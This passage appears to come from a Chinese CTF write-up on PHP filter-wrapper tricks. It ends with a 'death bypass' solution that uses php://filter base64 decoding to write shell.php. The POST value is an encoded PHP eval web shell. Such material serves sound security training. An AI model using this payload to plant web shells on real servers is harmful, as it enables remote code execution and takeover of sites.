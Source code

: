 `convert.iconv.<input-encoding>.<output-encoding>` 或 `convert.iconv.<input-encoding>/<output-encoding>`

```php
function helloctf($filter){
    $wrapper = "php://filter/read=".$filter."/resource=php://input";
    echo "This is what you got:"."<br>";
    readfile($wrapper);
}
```

### Level 11+ 死亡绕过

```php
function hello_ctf($filename,$data){
    if(preg_match("/flag|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $data)){
        die("WAF!");
    }
    file_put_contents($filename, "<?php die('GAME OVER!') ?>".$data);
}
```

![image-20240806112106652](./assets/image-20240806112106652.png)

对内容填充两个字符后可以使前方无效后方正常解析。

**GET**:`?filename=php://filter/write=convert.base64-decode/resource=shell.php`

**POST**:`data=aaPD9waHAgQGV2YWwoJF9QT1NUWydhdyddKTsgPz4`
